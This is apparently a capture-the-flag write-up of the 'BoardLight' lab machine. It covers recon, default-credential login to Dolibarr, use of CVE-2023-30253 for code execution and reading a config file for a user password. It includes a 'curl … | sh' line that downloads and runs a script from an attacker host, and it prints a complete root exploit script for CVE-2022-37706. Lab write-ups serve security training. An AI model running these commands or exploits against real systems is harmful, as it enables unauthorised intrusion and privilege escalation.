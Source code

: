 ```yaml
---
description: Linux  🔮 Easy
cover: https://i.pinimg.com/564x/9e/de/50/9ede5075db67f260856d341b73454f53.jpg
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# BoardLight

## Recon

### Nmap

<figure><img src="../../../.gitbook/assets/boardlight_01.png" alt=""><figcaption></figcaption></figure>

Nothing is interesting in the <mark style="color:red;">**`nmap`**</mark> report.&#x20;

### Web app

I visited the page and tried <mark style="color:red;">**`ffuf`**</mark>to scan the hidden directories:&#x20;

<figure><img src="../../../.gitbook/assets/boardlight_02_01.png" alt=""><figcaption></figcaption></figure>

I have tried to scan the website subdomain but nothing happened, so I think there is another host for the page. \
After looking around the website I found this:&#x20;

<figure><img src="../../../.gitbook/assets/boardlight_03.png" alt=""><figcaption></figcaption></figure>

Navigate to that host nothing changed. This might be the <mark style="color:red;">**`dev`**</mark> page of the IP before. So that we can scan the subdomain to see what is new:&#x20;

<figure><img src="../../../.gitbook/assets/boardlight_02_02.png" alt=""><figcaption></figcaption></figure>

The <mark style="color:red;">**`crm`**</mark> subdomain was found. Navigate to that:

<figure><img src="../../../.gitbook/assets/boardlight_04.png" alt=""><figcaption></figcaption></figure>

It brought me to the login page which uses <mark style="color:red;">**`Dolibarr`**</mark> software.&#x20;

## WWW-Data

[**Dolibarr**](https://www.dolibarr.org/) ERP CRM is an open-source, free software package for companies of any size, foundations, or freelancers. It includes different features for enterprise resource planning (ERP), customer relationship management (CRM), and other features for different activities

Try a basic login credential such as  <mark style="color:red;">**`admin:admin`**</mark> and we can go inside the page&#x20;

As we know the version of Dolibarr is 17.0.0 and we can easily find that is [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253) which allows remote code execution by an authenticated user via an uppercase manipulation: <mark style="color:red;">**`<?PHP`**</mark> instead of <mark style="color:red;">**`<?php`**</mark> in injected data.

I'm using the exploit from [nikn0laty](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253):&#x20;

<figure><img src="../../../.gitbook/assets/boardlight_06_01.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/boardlight_06_02.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
There is another way to exploit CVE-2023-30253, which is using a PHP reverse shell instead of a Python exploit. You can read more in this [article](https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253).
{% endhint %}

## &#x20;Larissa

I took some of my time to read through the Dolibarr [documents](https://wiki.dolibarr.org/index.php?title=Home) to understand them better and I know that the Dolibarr [configuration file](https://wiki.dolibarr.org/index.php?title=Configuration_file) is <mark style="color:red;">**`conf/conf.php`**</mark> may contain the password of the next user we target.

<figure><img src="../../../.gitbook/assets/boardlight_07_01 (1).png" alt=""><figcaption></figcaption></figure>

Check <mark style="color:red;">**`/home`**</mark> and we will know the next target:&#x20;

<figure><img src="../../../.gitbook/assets/boardlight_07_02.png" alt=""><figcaption></figcaption></figure>

I tried that password with the <mark style="color:red;">**`larissa`**</mark> user:&#x20;

<figure><img src="../../../.gitbook/assets/boardlight_07_03.png" alt=""><figcaption></figcaption></figure>

And boom! Now we can access it as <mark style="color:red;">**`larissa`**</mark> user

## &#x20;Root

For the root user, I recommend using <mark style="color:red;">**`linpeas`**</mark> for **Privilege Escalation**

**Linux local Privilege Escalation Awesome Script** ([linPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md)) is a script that searches for possible paths to escalate privileges on Linux/Unix hosts.

Run <mark style="color:red;">**`linPEAS`**</mark> in victim&#x20;

```bash
sudo python3 -m http.server 8080 # Host
```

```bash
curl 10.10.10.10/linpeas.sh | sh # Victim
```

Execute it and wait for the report

<figure><img src="../../../.gitbook/assets/boardlight_08_01.png" alt=""><figcaption></figcaption></figure>

We discovered it has <mark style="color:red;">**`enlightment_sys`**</mark> binary

[Enlightenment](https://www.enlightenment.org/about-enlightenment) is a Window Manager, Compositor, and Minimal Desktop for Linux (the primary platform), BSD, and any other compatible UNIX system. Its binary has one 0-day ([CVE-2022-37706](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)), which will take any user to root privileges easily and instantly.

So I am using the exploit from [MaherAzzouzi](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) to exploit this:&#x20;

```bash
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

<figure><img src="../../../.gitbook/assets/boardlight_08_02.png" alt=""><figcaption></figcaption></figure>

And we easily get <mark style="color:red;">**`root`**</mark> 🪄
